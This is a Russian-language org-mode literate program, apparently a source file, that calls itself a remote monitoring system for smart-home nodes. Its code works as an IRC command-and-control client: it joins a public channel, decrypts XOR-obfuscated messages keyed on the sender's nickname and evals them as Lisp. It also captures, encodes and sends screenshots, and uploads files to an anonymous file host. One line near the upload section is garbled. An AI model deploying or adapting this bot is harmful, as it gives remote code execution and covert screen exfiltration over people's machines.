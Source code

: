 #+STARTUP: showall indent hidestars

* Intro

Это внешняя система мониторинга, предназначеная для наблюдения за работой
узла сети. Узел сети может быть не только desktop-системой, но и сервером
умного дома и осуществлять управление его компонентами: включать и
выключать нагрузку, отправлять команды роботу пылесосу, и.т.п.

К сожалению, некоторые проприетарные компоненты автоматизации, такие как
3D-принтер, могут управляться только через GUI своей управляющей
программы. Поэтому для того чтобы удаленно управлять ими необходимо
анализировать скриншоты экрана и осуществлять операции виртуальной мышью
и клавиатурой над управляющей программой.

Поэтому мы должны отслеживать изменения на экране, отпралять их в
коммуникационный канал (естественно не в открытом виде) и иметь
возможность проанализировать их удаленно, а потом отослать команду,
которая будет выполнена.

Наша основная задача - сократить количество передаваемых данных, потому
что узлов сети может быть множество и не все из них имеют быстрые каналы
передачи.

* IRC

Работа с IRC состоит из нескольких этапов
- Подключение
- Запуск цикла чтения сообщений (в отдельном потоке)
- Установка хука, чтобы перехватить сообщения-команды
- Подключение к каналу и отправка первого сообщения

#+NAME: irc
#+BEGIN_SRC lisp :noweb yes
  <<irc_conn>>
  <<irc_loop>>
  <<irc_hook>>
  <<irc_join>>
#+END_SRC

** Connect

Начнем с подключения к IRC - нашему коммуникационному каналу.

В случае если по какой-то причине мы не можем подключиться - то вызываем
процедуру подключения хвосторекурсивно каждые три секунды. Пока
подключиться не удастся мы все равно ничего не можем сделать.

#+NAME: irc_conn
#+BEGIN_SRC lisp :noweb yes
  (defparameter *irc-sess* (get-universal-time))
  (defparameter *irc-user* (format nil "b~A" *irc-sess*))
  (defparameter *irc-serv* "irc.freenode.org")
  (defparameter *irc-chan* "#nvrtlessfndout")
  (defparameter *irc-lock* (bt:make-lock "irc-lock"))

  (defun try-irc-conn ()
    (let ((conn (handler-case
                    (cl-irc:connect :nickname *irc-user* :server *irc-serv*)
                  (USOCKET:NS-TRY-AGAIN-CONDITION () nil))))
      (if conn
          conn
          (progn
            (sleep 3)
            (try-irc-conn)))))

  (defparameter *irc-conn* (try-irc-conn))
#+END_SRC

** Read loop

#+NAME: irc_loop
#+BEGIN_SRC lisp :noweb yes
  (defun irc-loop ()
    (cl-irc:read-message-loop *irc-conn*))

  (defparameter *irc-thread*
    (bt:make-thread (lambda ()
                      (irc-loop))
                    :name "irc-thread"
                    :initial-bindings
                    `((*standard-output* . ,*standard-output*)
                      (*irc-user* . ,*irc-user*)
                      (*irc-serv* . ,*irc-serv*)
                      (*irc-chan* . ,*irc-chan*)
                      (*irc-conn* . ,*irc-conn*))))
#+END_SRC

** Command hook

Функция, которая читает сообщения из канала должна быть запущена в
отдельном потоке. При получении команды она вызовет хук, который должен
исполнить эту команду (command processor).

#+NAME: irc_hook
#+BEGIN_SRC lisp :noweb yes
  ;; irc_cmd_proc
  <<irc_cmd_proc>>

  (defun irc-msg-hook (param)
    "MUST return T for stop hooks processing"
    (funcall *irc-cmd* param)
    t)
#+END_SRC

У сообщения есть следующие поля:
- CL-IRC:SOURCE
- CL-IRC:USER
- CL-IRC:HOST
- CL-IRC:COMMAND
- CL-IRC:ARGUMENTS
- CL-IRC:CONNECTION
- CL-IRC:RECEIVED-TIME
- CL-IRC:RAW-MESSAGE-STRING

Из них нас интересует собственно команда размещенная в ~ARGUMENTS~ и имя
пользователя из ~SOURCE~. Имя пользователя будет содержать
инициализационный вектор для регистра с линейной обратной связью, который
даст нам гамму для расшифровки команды.

#+NAME: irc_cmd_proc
#+BEGIN_SRC lisp
  (defun seq-xor (len seq-1 seq-2)
    (let ((result (make-array len :element-type '(unsigned-byte 8))))
      (do ((idx 0 (incf idx)))
          ((= idx len))
        (setf (aref result idx)
              (logxor (aref seq-1 idx)
                      (aref seq-2 idx))))
      result))

  (defun encrypt (str seed)
    (let* ((oct (flex:string-to-octets str :external-format :utf-8))
           (len (length oct))
           (gen (prbs:byte-gen 31 :seed seed))
           (gam (funcall gen len))
           (enc (seq-xor len oct gam)))
      (base64:usb8-array-to-base64-string enc)))

  (defun decrypt (base64 seed)
    (handler-case
        (let* ((oct (base64:base64-string-to-usb8-array base64))
               (gen (prbs:byte-gen 31 :seed seed))
               (len (length oct))
               (gam (funcall gen len))
               (cmd (seq-xor len oct gam)))
          (flex:octets-to-string cmd :external-format :utf-8))
      (FLEXI-STREAMS:EXTERNAL-FORMAT-ENCODING-ERROR () nil)))

  (defmacro bprint (var)
    `(subseq (with-output-to-string (*standard-output*)
               (pprint ,var)) 1))

  (defparameter *irc-cmd*
    (lambda (param)
      (block irc-cmd-block
        (let* ((msg    (cadr (CL-IRC:ARGUMENTS param)))
               (src (CL-IRC:SOURCE param))
               (seed (handler-case (parse-integer (subseq src 1))
                      (SB-INT:SIMPLE-PARSE-ERROR ()
                        (return-from irc-cmd-block nil))))
               (str (decrypt msg seed)))
          (format t "~%::COMMAND::~A::" msg)
          (format t "~%::SOURCE::~A::" src)
          (format t "~%::str::~A::" str)
          (format t "~%::eval::~A::"
                  (handler-case (bprint (eval (read-from-string  str)))
                    (TYPE-ERROR () (return-from irc-cmd-block nil))))
          (finish-output)))))

  ;; (encrypt
  ;;  "(defun snd () (bt:with-lock-held (*irc-lock*) (cl-irc:privmsg *irc-conn* *irc-chan* (format nil \"nfo:error\"))))" 3783969158)

  ;; (encrypt
  ;;  "(snd)" 3783969158)
#+END_SRC

** Join to channel

После того как мы запустили цикл чтения сообщений можно подключаться к
каналу и отправить сообщение о присутствии.

#+NAME: irc_join
#+BEGIN_SRC lisp :noweb yes
  (defun irc-join ()
    (cl-irc:add-hook *irc-conn* 'cl-irc:IRC-PRIVMSG-MESSAGE #'irc-msg-hook)
    (sleep 3)
    (bt:with-lock-held (*irc-lock*)
      (cl-irc:join *irc-conn* *irc-chan*))
    (sleep 3)
    (bt:with-lock-held (*irc-lock*)
      (cl-irc:privmsg
       ,*irc-conn* *irc-chan*
       (format nil "nfo:start"))))

  (irc-join)
#+END_SRC

* Base

#+NAME: base
#+BEGIN_SRC lisp :noweb yes
  <<x_display>>

  <<shot_func>>

  (defparameter *shot-timer*
    (make-timer #'(lambda ()
                    (shot-func))
                :name "shot" :thread t))


  ;; (schedule-timer *shot-timer* 0.5)
#+END_SRC

** X-Display

Этот раздел описывает библиотечные функции, которые необходимы для
получения снимков экрана

Работа с экраном через ~xlib~:
- Получение размеров экрана
- Получение снимков экрана

После получения размеров экрана мы сохраняем их в глобальные переменные
вида ~default-*~, чтобы после работать с ними напрямую - за это отвечает
вызов функции ~init-defaults~.

При формировании скришота мы перекодируем его функцией
~raw-image->png~. При оптимизации эту перекодировку следует удалить,
чтобы ускорить работу, но пока нам требуется отлаживаемость а не
скорость.

#+NAME: x_display
#+BEGIN_SRC lisp :padline no
  (defmacro with-display (host (display screen root-window) &body body)
    `(let* ((,display (xlib:open-display ,host))
            (,screen (first (xlib:display-roots ,display)))
            (,root-window (xlib:screen-root ,screen)))
       (unwind-protect (progn ,@body)
         (xlib:close-display ,display))))

  (defmacro with-default-display ((display &key (force nil)) &body body)
    `(let ((,display (xlib:open-default-display)))
       (unwind-protect
            (unwind-protect
                 ,@body
              (when ,force
                (xlib:display-force-output ,display)))
         (xlib:close-display ,display))))

  (defmacro with-default-display-force ((display) &body body)
    `(with-default-display (,display :force t) ,@body))

  (defmacro with-default-screen ((screen) &body body)
    (let ((display (gensym)))
      `(with-default-display (,display)
         (let ((,screen (xlib:display-default-screen ,display)))
           ,@body))))

  (defmacro with-default-window ((window) &body body)
    (let ((screen (gensym)))
      `(with-default-screen (,screen)
         (let ((,window (xlib:screen-root ,screen)))
           ,@body))))

  (defun x-size ()
    (with-default-screen (s)
      (values
       (xlib:screen-width s)
       (xlib:screen-height s))))

  (defparameter *default-x* 0)
  (defparameter *default-y* 0)
  (defparameter *default-width* 800)
  (defparameter *default-height* 600)

  (defun init-defaults ()
    (multiple-value-bind (width height)
        (x-size)
      (setf *default-width* width
            ,*default-height* height
            ,*default-x* 0
            ,*default-y* 0)))

  (init-defaults)

  (defun raw-image->png (data width height)
    (let* ((png (make-instance 'zpng:png :width width :height height
                               :color-type :truecolor-alpha
                               :image-data data))
           (data (zpng:data-array png)))
      (dotimes (y height)
        (dotimes (x width)
          ;; BGR -> RGB, ref code: https://goo.gl/slubfW
          ;; diffs between RGB and BGR: https://goo.gl/si1Ft5
          (rotatef (aref data y x 0) (aref data y x 2))
          (setf (aref data y x 3) 255)))
      png))

  (defun x-snapshot (&key (x *default-x*) (y *default-y*)
                       (width  *default-width*) (height *default-height*)
                       path)
    ;; "Return RGB data array (The dimensions correspond to the height, width,
    ;; and pixel components, see comments in x-snapsearch for more details),
    ;; or write to file (PNG only), depend on if you provide the path keyword"
    (with-default-window (w)
      (let ((image
             (raw-image->png
              (xlib:get-raw-image w :x x :y y
                                  :width width :height height
                                  :format :z-pixmap)
              width height)
            ))
        (if path
            (let* ((ext (pathname-type path))
                   (path
                    (if ext
                        path
                        (concatenate 'string path ".png")))
                   (png? (or (null ext) (equal ext "png"))))
              (cond
                (png? (zpng:write-png image path))
                (t (error "Only PNG file is supported"))))
            (zpng:data-array image)))))

  ;; (x-snapshot :path "x-snapshot-true-color.png")
#+END_SRC

* Snaphot function

Сама функция скриншота должна сделать скриншт и обработать его, а потом
реинициализировать свой таймер

#+NAME: shot_func
#+BEGIN_SRC lisp :noweb yes
  <<pack_image>>
  <<unpack_image>>

  (defun seq-xor (len seq-1 seq-2)
    (let ((result (make-array len :element-type '(unsigned-byte 8))))
      (do ((idx 0 (incf idx)))
          ((= idx len))
        (setf (aref result idx)
              (logxor (aref seq-1 idx)
                      (aref seq-2 idx))))
      result))

  (defun save (frmt-filename-str dims image)
    (let* ((height (car dims))
           (width  (* 8 (cadr dims))) ;; tmp: for unpack image
           (unpacked-image (unpack-image image))
           (png (get-png-obj width height unpacked-image :grayscale))
           (png-seq (get-png-sequence png))
           (png-len (length png-seq))
           (seed (get-universal-time))
           (encoder (prbs:byte-gen 31 :seed seed))
           (enc-gamma (funcall encoder png-len))
           (encoded (seq-xor png-len png-seq enc-gamma))
           (base64 (cl-base64:usb8-array-to-base64-string encoded))
           (unbase64 (cl-base64:base64-string-to-usb8-array base64))
           (decoder (prbs:byte-gen 31 :seed seed))
           (dec-gamma (funcall decoder png-len))
           (decoded (seq-xor (length unbase64) unbase64 dec-gamma))
           (unk-filename (format nil frmt-filename-str
                                 (format nil "~A-~A-~A-"
                                         (gensym) seed png-len))))
      ;; (alexandria:write-string-into-file
      ;;  base64 unk-filename :if-exists :supersede  :external-format :utf-8)
      (with-open-file (file-stream unk-filename
                                   :direction :output
                                   :if-exists :supersede
                                   :if-does-not-exist :create
                                   :element-type '(unsigned-byte 8))
        (write-sequence decoded file-stream)
        (cl-irc:privmsg *irc-conn* *irc-chan* "qwe"))
      ))

  ;; START: send to irc
  ;; (ql:quickload "cl-irc")

  ;; TODO: receive from irc
  ;; TODO: execute commands
  ;; TODO: offline mode

  ;; (let ((prev)
  ;;       (cnt 9999))
  ;;   (defun shot-func ()
  ;;     (format t "~%::shot-func")
  ;;     (let* ((snap (pack-image (x-snapshot)))
  ;;            (dims (array-dimensions snap)))
  ;;       (if (> cnt 4)
  ;;           (progn
  ;;             (save "FILE~A" dims snap)
  ;;             (setf prev snap)
  ;;             (setf cnt 0))
  ;;           ;; else
  ;;           (let ((xored (make-array dims :element-type '(unsigned-byte 8))))
  ;;             (do ((qy 0 (incf qy)))
  ;;                 ((= qy (car dims)))
  ;;               (declare (type fixnum qy))
  ;;               (do ((qx 0 (incf qx)))
  ;;                   ((= qx (cadr dims)))
  ;;                 (declare (type fixnum qx))
  ;;                 (setf (aref xored qy qx)
  ;;                       (logxor (aref prev qy qx)
  ;;                               (aref snap qy qx)))))
  ;;             (save "FILE~ADIFF" dims xored)
  ;;             (setf prev snap)
  ;;             (incf cnt))))
  ;;     ;; re-schedule times
  ;;     (schedule-timer *shot-timer* 1 :absolute-p nil)))

#+END_SRC

** Packing image

Нам нужна функция, для быстрой упаковки изображения. Она не тривиальна.

Мы берем полноцветное изображение и используем два вложенных цикла,
проходя по ~Y~ и ~X~ чтобы обработать каждую точку. После обработки одна
точка должна занимать только один бит.

Мы также должны упаковать по восемь точек в байт, но если размер
изображения в точках не кратен байту, то нужно дополнить недостающие
точки. За это отвечате внутренний макрос ~byte-finiser~, который
вызывается по мере накопления значений в байте и в конце обработки
строки, если это необходимо.

#+NAME: pack_image
#+BEGIN_SRC lisp
  (defun pack-image (image)
    (declare (optimize (speed 3) (safety 0)))
    (let* ((dims (array-dimensions image))
           (height (car dims))
           (width (cadr dims))
           (new-width (ash (logand (+ width 7) (lognot 7)) -3))
           (need-finisher (not (equal new-width (ash width -3))))
           (result (make-array (list height new-width)
                               :element-type '(unsigned-byte 8)))
           (bp 8)
           (acc 0))
      (declare (type (unsigned-byte 8) acc)
               (type fixnum bp)
               (type fixnum width)
               (type fixnum new-width)
               (type fixnum height))
      (macrolet ((byte-finisher (acc qy qx bp)
                   `(progn
                      ;; (format t "~8,'0B(~2,'0X)" ,acc ,acc)
                      (setf (aref result ,qy (ash ,qx -3)) ,acc)
                      (setf ,acc 0)
                      (setf ,bp 8))))
        (do ((qy 0 (incf qy)))
            ((= qy height))
          (declare (type fixnum qy))
          (do ((qx 0 (incf qx)))
              ((= qx width) (when need-finisher
                              (byte-finisher acc qy qx bp)))
            (declare (type fixnum qx))
            (let* ((avg (floor (+ (aref image qy qx 0)
                                  (aref image qy qx 1)
                                  (aref image qy qx 2))
                               3))
                   (pnt (ash avg -7)))
              (declare (type fixnum avg))
              (declare (type fixnum pnt))
              (decf bp)
              (setf acc (logior acc (ash pnt bp)))
              (when (= bp 0)
                (byte-finisher acc qy qx bp))))
          ;; (format t "~%")
          ))
      result))

  ;; (disassemble 'pack-image)

  ;; TEST: pack-image
  ;; (time
  ;;  (let* ((image (pack-image (x-snapshot)))
  ;;         (dims (array-dimensions image)))
  ;;    (save-png (cadr dims)
  ;;              (car dims)
  ;;              (format nil "~A" (gensym "FILE"))
  ;;              image
  ;;              :grayscale)))
#+END_SRC

** Save and Load

Для целей отладки нам нужно уметь сохранять и загружать png-изображения

#+NAME: save_and_load_png
#+BEGIN_SRC lisp
  (defun get-png-obj (width height image &optional (color-type :truecolor-alpha))
    (let* ((png (make-instance 'zpng:png :width width :height height
                               :color-type color-type))
           (vector (make-array ;; displaced vector - need copy for save
                    (* height width (zpng:samples-per-pixel png))
                    :displaced-to image :element-type '(unsigned-byte 8))))
      ;; Тут применен потенциально опасный трюк, когда мы создаем
      ;; объект PNG без данных, а потом добавляем в него данные,
      ;; используя неэкспортируемый writer.
      ;; Это нужно чтобы получить третью размерность массива,
      ;; который мы хотим передать как данные и при этом
      ;; избежать создания для этого временного объекта
      (setf (zpng::%image-data png) (copy-seq vector))
      png))

  (defun get-png-sequence (png)
    (flex:with-output-to-sequence (stream)
      (zpng:write-png-stream png stream)))

  ;; DEPRECATED, use explicit saving png-sequence by with-open-file
  ;; (defun save-png (pathname-str png)
  ;;   (zpng:write-png png pathname-str))

  (defun load-png (pathname-str)
    "Возвращает массив size-X столбцов по size-Y точек,
       где столбцы идут слева-направо, а точки в них - сверху-вниз
       ----
       В zpng есть указание на возможные варианты COLOR:
       ----
             (defmethod samples-per-pixel (png)
               (ecase (color-type png)
                 (:grayscale 1)
                 (:truecolor 3)
                 (:indexed-color 1) ;; НЕ ПОДДЕРЖИВАЕТСЯ
                 (:grayscale-alpha 2)
                 (:truecolor-alpha 4)))
      "
    (let* ((png (png-read:read-png-file pathname-str))
           (image-data (png-read:image-data png))
           (color (png-read:colour-type png))
           (dims (cond ((or (equal color :truecolor-alpha)
                            (equal color :truecolor))
                        (list (array-dimension image-data 1)
                              (array-dimension image-data 0)
                              (array-dimension image-data 2)))
                       ((or (equal color :grayscale)
                            (equal color :greyscale))
                        (list (array-dimension image-data 1)
                              (array-dimension image-data 0)))
                       (t (error 'unk-png-color-type :color color))))
           (result ;; меняем размерности X и Y местами
            (make-array dims :element-type '(unsigned-byte 8))))
      ;; (dbg "~% new-arr ~A "(array-dimensions result))
      ;; ширина, высота, цвет => высота, ширина, цвет
      (macrolet ((cycle (&body body)
                   `(do ((y 0 (incf y)))
                        ((= y (array-dimension result 0)))
                      (do ((x 0 (incf x)))
                          ((= x (array-dimension result 1)))
                        ,@body))))
        (cond ((or (equal color :truecolor-alpha)
                   (equal color :truecolor))
               (cycle (do ((z 0 (incf z)))
                          ((= z (array-dimension result 2)))
                        (setf (aref result y x z)
                              (aref image-data x y z)))))
              ((or (equal color :grayscale)
                   (equal color :greyscale))
               (cycle (setf (aref result y x)
                            (aref image-data x y))))
              (t (error 'unk-png-color-type :color color)))
        result)))
#+END_SRC

** Bit-vector operations

Для целей отладки определим операции кодирования в битовый вектор и
обратно

#+NAME: bit_vector
#+BEGIN_SRC lisp
  (defun bit-vector->integer (bit-vector)
    "Create a positive integer from a bit-vector."
    (reduce #'(lambda (first-bit second-bit)
                (+ (* first-bit 2) second-bit))
            bit-vector))

  (defun integer->bit-vector (integer)
    "Create a bit-vector from a positive integer."
    (labels ((integer->bit-list (int &optional accum)
               (cond ((> int 0)
                      (multiple-value-bind (i r) (truncate int 2)
                        (integer->bit-list i (push r accum))))
                     ((null accum) (push 0 accum))
                     (t accum))))
      (coerce (integer->bit-list integer) 'bit-vector)))
#+END_SRC

** Binarization

Получение черно-белого изображения или в градациях серого из
полноцветного.

Здесь остается пространство для оптимизаций путем применения
SIMD-операций.

#+NAME: binarization
#+BEGIN_SRC lisp
  (defun binarization (image &optional threshold)
    (let* ((dims (array-dimensions image))
           (new-dims (cond ((equal 3 (length dims))  (butlast dims))
                           ((equal 2 (length dims))  dims)
                           (t (error 'binarization-error))))
           (result (make-array new-dims :element-type '(unsigned-byte 8))))
      (macrolet ((cycle (&body body)
                   `(do ((y 0 (incf y)))
                        ((= y (array-dimension image 0)))
                      (do ((x 0 (incf x)))
                          ((= x (array-dimension image 1)))
                        ,@body))))
        (cond ((equal 3 (length dims))
               (cycle (do ((z 0 (incf z)))
                          ((= z (array-dimension image 2)))
                        (let ((avg (floor (+ (aref image y x 0)
                                             (aref image y x 1)
                                             (aref image y x 2))
                                          3)))
                          (when threshold
                            (if (< threshold avg)
                                (setf avg 255)
                                (setf avg 0)))
                          (setf (aref result y x) avg)))))
              ((equal 2 (length dims))
               (cycle (let ((avg (aref image y x)))
                        (when threshold
                          (if (< threshold avg)
                              (setf avg 255)
                              (setf avg 0)))
                        (setf (aref result y x) avg))))
              (t (error 'binarization-error))))
      result))

  ;; TEST: binarize and save screenshot
  ;; (let* ((to   "x-snapshot-binarize.png")
  ;;        (image-data (binarization (x-snapshot) 127))) ;; NEW: threshold!
  ;;   (destructuring-bind (height width) ;; NB: no depth!
  ;;       (array-dimensions image-data)
  ;;     (save-png width height to image-data :grayscale))) ;; NB: grayscale!


  ;; TEST: binarize get png and save
  ;; (print
  ;;  (let* ((image-data (binarization (x-snapshot) 127))) ;; NEW: threshold!
  ;;    (destructuring-bind (height width) ;; NB: no depth!
  ;;        (array-dimensions image-data)
  ;;      (let ((seq (get-png width height image-data :grayscale)))
  ;;        (with-open-file (file-stream "tee.png"
  ;;                                     :direction :output
  ;;                                     :if-exists :supersede
  ;;                                     :if-does-not-exist :create
  ;;                                     :element-type '(unsigned-byte 8))
  ;;          (write-sequence seq file-stream))))))
#+END_SRC

** Bit-image

Упаковка бинаризованного черно-белого изображения в битовый массив

#+NAME: make_bit_image
#+BEGIN_SRC lisp
  (defun make-bit-image (image-data)
    (destructuring-bind (height width &optional colors)
        (array-dimensions image-data)
      ;; функция может работать только с бинарными изобажениями
      (assert (null colors))
      (let* ((new-width (+ (logior width 7) 1))
             (bit-array (make-array (list height new-width)
                                    :element-type 'bit
                                    :initial-element 1)))
        (do ((qy 0 (incf qy)))
            ((= qy height))
          (do ((qx 0 (incf qx)))
              ((= qx width))
            ;; если цвет пикселя не белый, считаем,
            ;; что это не фон и заносим в битовый массив 1
            (if (equal (aref image-data qy qx) 255)
                (setf (bit bit-array qy qx) 1)
                (setf (bit bit-array qy qx) 0))))
        bit-array)))

  ;; TEST: make-bit-image
  ;; (print
  ;;  (make-bit-image
  ;;   (binarization (x-snapshot :x 0 :y 0 :width 30 :height 30) 127)))
#+END_SRC

** Unpack image

#+NAME: unpack_image
#+BEGIN_SRC lisp
  (defun unpack-image (image)
    (declare (optimize (speed 3) (safety 0)))
    (let* ((dims (array-dimensions image))
           (height (car dims))
           (width (cadr dims))
           (new-width (ash width 3))
           (result (make-array (list height new-width)
                               :element-type '(unsigned-byte 8))))
      (declare (type fixnum width)
               (type fixnum new-width)
               (type fixnum height))
      (do ((qy 0 (incf qy)))
          ((= qy height))
        (declare (type fixnum qy))
        (do ((qx 0 (incf qx)))
            ((= qx width))
          (declare (type fixnum qx))
          (let ((acc (aref image qy qx)))
            (declare (type (unsigned-byte 8) acc))
            ;; (format t "~8,'0B" acc)
            (do ((out 0 (incf out))
                 (in  7 (decf in)))
                ((= 8 out))
              (declare (type fixnum out in))
              (unless (= 0 (logand acc (ash 1 in)))
                (setf (aref result qy (logior (ash qx 3) out))
                      255)))))
        ;; (format t "~%")
        )
      result))

  ;; TEST
  ;; (print
  ;;  (unpack-image
  ;;   (pack-image
  ;;    (x-snapshot :width 31 :height 23))))

  ;; TEST
  ;; (time
  ;;  (let* ((image  (load-png "FILE1088"))
  ;;         (unpack (unpack-image image))
  ;;         (dims (array-dimensions unpack)))
  ;;    (save-png (cadr dims)
  ;;              (car dims)
  ;;              (format nil "~A" (gensym "FILE"))
  ;;              unpack
  ;;              :grayscale)))
#+END_SRC

** Upload image

#+NAME: upload_image
#+BEGIN_SRC lisp
  (setf drakma:*header-stream* *standard-output*)

  (defparameter *user-agent* "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0")

  (defparameter *user-agent* "curl/7.47.0")

  (defparameter *additional-headers*
    `(("Accept" . "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8")
      ("Accept-Language" . "ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3")
      ("Accept-Charset" . "utf-8")))

  (defun get-csrf (text)
    (loop :for str :in (split-sequence:split-sequence #\Newline text)
       :do (multiple-value-bind (match-p result)
               (ppcre:scan-to-strings "(?m)app_csrf_token\\s+=\\s+\"(.*)\";" str)
             (when match-p (return (aref result 0))))))

  (defun get-cookies-alist (cookie-jar)
    "Получаем alist с печеньками из cookie-jar"
    (loop :for cookie :in (drakma:cookie-jar-cookies cookie-jar) :append
         (list (cons (drakma:cookie-name cookie) (drakma:cookie-value cookie)))))

  (let ((cookie-jar (make-instance 'drakma:cookie-jar)))
    (multiple-value-bind (body-or-stream status-code headers
                                         uri stream must-close reason-phrase)
        (drakma:http-request "https://anonfile.com/"
                             :user-agent *user-agent*
                             :redirect 10
                             :force-binary t
                             :cookie-jar cookie-jar
                             :additional-headers *additional-headers*)
      (let* ((text (flexi-streams:octets-to-string body-or-stream
                                                   :external-format :utf-8))
             (csrf (get-csrf text))
             (new-headers `(("Accept" . "application/json")
                            ("Accept-Language" . "en-US,en;q=0.5")
                            ("Cache-Control" . "no-cache")
                            ("X-Requested-With" . "XMLHttpRequest")
                            ("X-CSRF-Token" . ,csrf)
                            ("Origin" . "https://anonfile.com")
                            ("Referer" . "https://anonfile.com/")
                            ("TE" . "Trailers"))))
        (multiple-value-bind (body-or-stream status-code headers
                                             uri stream must-close reason-phrase)
            (drakma:http-request
             "https://api.anonfile.com/upload"
             ;; "http://localhost:9993/upload"
             :user-agent *user-agent*
             :method :post
             :form-data t
             :parameters `(("file" .  (,#P"test.txt"
                                          :content-type "application/octet-stream"
                                          :filename ,#P"test.txt"
                                          )))
             :cookie-jar cookie-jar
             :additional-headers new-headers
             ;; :external-format-in :UTF-8
             ;; :external-format-out :UTF-8
             :force-binary t)
          (let* ((text (flexi-streams:octets-to-string body-or-stream
                                                       :external-format :utf-8)))
            (format t "~%<<~A>>" text))))))


  (alexandria:write-string-into-file
   (cl-base64:usb8-array-to-base64-string
    (alexandria:read-file-into-byte-vector #P"png.png"))
   #P"test.txt" :if-exists :supersede :external-format :utf-8)

  (alexandria:write-byte-vector-into-file
   (cl-base64:base64-string-to-usb8-array
    (alexandria:read-file-into-string #P"test.txt" :external-format :utf-8))
   #P"test2" :if-exists :supersede)


  ;; (print (get-cookies-alist cookie-jar))
  ;; (print headers)
  (setf drakma" . "drakma-default-external-format* :UTF-8)

  (in-package :rigidus)

  (ql:quickload "rigidus")

  (restas:define-route upload ("/upload")
    "<form enctype=\"multipart/form-data\" method=\"post\">
     <input type=\"file\" name=\"file\">
     <input type=\"submit\" value=\"Отправить\">
     </form>")

  (restas:define-route upload-post ("/upload" :method :post)
    (let ((file-info (hunchentoot:post-parameter "file")))
      ;; (hunchentoot:escape-for-html
      ;;  (alexandria:read-file-into-string (first file-info)))
      (format nil "~A"
              (bprint file-info))))
#+END_SRC

* Assembly

#+NAME:
#+BEGIN_SRC lisp :tangle srv.lisp :noweb yes
  (ql:quickload "bordeaux-threads")
  (ql:quickload "clx")
  (ql:quickload "zpng")
  (ql:quickload "png-read")
  (ql:quickload "drakma")
  (ql:quickload "cl-ppcre")
  (ql:quickload "cl-base64")
  (ql:quickload "prbs")
  (ql:quickload "cl-irc")

  <<save_and_load_png>>
  <<binarization>>
  <<make_bit_image>>
  <<pack_image>>

  ;; <<base>>
  <<irc>>
#+END_SRC

